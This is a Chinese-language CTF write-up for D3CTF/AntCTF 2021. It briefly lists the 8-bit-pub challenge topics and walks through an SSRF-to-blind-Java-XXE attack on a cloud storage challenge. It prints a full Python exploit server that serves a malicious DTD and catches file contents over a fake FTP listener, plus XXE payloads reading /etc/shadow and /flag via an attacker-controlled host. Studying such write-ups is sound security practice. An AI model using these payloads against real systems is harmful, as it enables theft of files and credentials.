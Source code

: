 ```yaml
---
title: "D3ctf^antctf2021复现"
date: 2021-03-10T14:18:14+08:00
draft: true
image: https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210311143228.png
description: 
categories: 
- ctf_writeup
tags:
- XXE
- 原型链污染
- NodeJS
---
```


### 8-bit-pub

考点：json sqli、绕过\__proto__、原型链污染、sendmail参数注入

给了源码：[source.zip](https://github.com/Anthem-whisper/CTFWEB_sourcecode/raw/main/D3ctf%5EAntctf/%5BD3ctf%5EAntctf%5D8-bit-hub/8-bit_pub.zip)

打开VSCode，审计，主要功能点在`controller/userController.js`（登陆注册）和`controller/adminController.js`（发送邮件），不过在调用adminController之前会调用`utils/auth.js`进行鉴权。



### real_cloud_storage

考点：Java-XXE盲打+SSRF

![image-20210310204312081](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210311114541.png)

题目是一个文件上传的服务，抓包观察，上传会向第二个服务端POST数据，然后第二个服务端会对第三个服务端PUT请求。

可以更改我们发起的POST参数让第二个服务端像我们自己的VPS发送PUT请求数据：

![image-20210310204711368](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210311114549.png)

修改之后我们能收到一个来自第二个服务端的PUT请求：

![image-20210310200933160](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210311114554.png)

我们可以仿照这个请求，对第三个服务端直接发起请求：

![image-20210310205313565](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210311114600.png)

返回了一个XML的报错信息；

按照逻辑，第二个服务端肯定会解析第三个服务端返回的信息，然后返回第一个服务端再返回给给客户端，既然解析了xml那么就有可能存在xxe。

事实上，如果去查看nos-sdk-java的源码的话，也可以发现确实是存在解析这个操作。https://github.com/NetEase-Object-Storage/nos-java-sdk

倘若我们控制这个返回信息，让第二个服务端加载我们的外部实体，就有可能读取这台机器上的文件。

接下来就是Java的xxe盲打，这在X1cT34m第二次考核遇见过，利用ftp外带信息。

直接上exp：

```python
#!/usr/bin/env python

import SocketServer
from threading import Thread
from time import sleep
import logging
from sys import argv

logging.basicConfig(filename='server-xxe-ftp.log',level=logging.DEBUG)

"""
The XML Payload you should send to the server!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/shadow">
  <!ENTITY % dtd SYSTEM "http://x.x.x.x:8888/evil.dtd">
  %dtd;
]>
<data>&send;</data>
"""

payload = """<!ENTITY % all "<!ENTITY send SYSTEM 'ftp://{}:{}/%file;'>">
%all;"""

def wlog(_str):
    print _str
    logging.info("{}\n".format(_str))

class WebServer(SocketServer.BaseRequestHandler):
    """
    Request handler for our webserver.
    """

    def handle(self):
        """
        Blanketly return the XML payload regardless of who's asking.
        """
        resp = """HTTP/1.1 200 OK\r\nContent-Type: application/xml\r\nContent-length: {}\r\n\r\n{}\r\n\r\n""".format(len(payload), payload)
        # self.request is a TCP socket connected to the client
        self.data = self.request.recv(4096).strip()
        wlog("[WEB] {} Connected and sent:".format(self.client_address[0]))
        wlog("{}".format(self.data))
        # Send back same data but upper
        self.request.sendall(resp)
        wlog("[WEB] Replied with:\n{}".format(resp))

class FTPServer(SocketServer.BaseRequestHandler):
    """
    Request handler for our ftp.
    """

    def handle(self):
        """
        FTP Java handler which can handle reading files
        and directories that are being sent by the server.
        """
        # set timeout
        self.request.settimeout(10)
        wlog("[FTP] {} has connected".format(self.client_address[0]))
        self.request.sendall("220 xxe-ftp-server\n")
        try:
            while True:
                self.data = self.request.recv(4096).strip()
                wlog("[FTP] Received:\n{}".format(self.data))
                if "LIST" in self.data:
                    self.request.sendall("drwxrwxrwx 1 owner group          1 Feb 21 04:37 rsl\n")
                    self.request.sendall("150 Opening BINARY mode data connection for /bin/ls\n")
                    self.request.sendall("226 Transfer complete.\n")
                elif "USER" in self.data:
                    self.request.sendall("331 password please - version check\n")
                elif "PORT" in self.data:
                    wlog("[FTP] ! PORT received")
                    wlog("[FTP] > 200 PORT command ok")
                    self.request.sendall("200 PORT command ok\n")
                elif "SYST" in self.data:
                    self.request.sendall("215 RSL\n")
                else:
                    wlog("[FTP] > 230 more data please!")
                    self.request.sendall("230 more data please!\n")
        except Exception, e:
            if "timed out" in e:
                wlog("[FTP] Client timed out")
            else:
                wlog("[FTP] Client error: {}".format(e))
        wlog("[FTP] Connection closed with {}".format(self.client_address[0]))

def start_server(conn, serv_class):
    server = SocketServer.TCPServer(conn, serv_class)
    t = Thread(target=server.serve_forever)
    t.daemon = True
    t.start()
    
if __name__ == "__main__":
    if not argv[1]:
        print "[-] Need public IP of this server in order to receive data."
        exit(1)
    WEB_ARGS = ("0.0.0.0", 8888)
    FTP_ARGS = ("0.0.0.0", 2121)
    payload = payload.format(argv[1],FTP_ARGS[1])
    wlog("[WEB] Starting webserver on %s:%d..." % WEB_ARGS)
    start_server(WEB_ARGS, WebServer)
    wlog("[FTP] Starting FTP server on %s:%d..." % FTP_ARGS)
    start_server(FTP_ARGS, FTPServer)
    try:
        while True:
            sleep(10000)
    except KeyboardInterrupt, e:
        print "\n[+] Server shutting down."#   
```

运行脚本，然后让控制返回信息，使用郭院士推荐的：https://requestrepo.com/

返回的信息：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///flag">
  <!ENTITY % dtd SYSTEM "http://1xx.xx.xx.5:8888/evil.dtd">
  %dtd;
]>
<data>&send;</data>

```

就可以收到flag了：

![image-20210310222506300](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210311114607.png)

其实这题不算难，关键点在于你能不能想到第二个服务端会解析返回的xml信息，当然去审计源码也是可以的。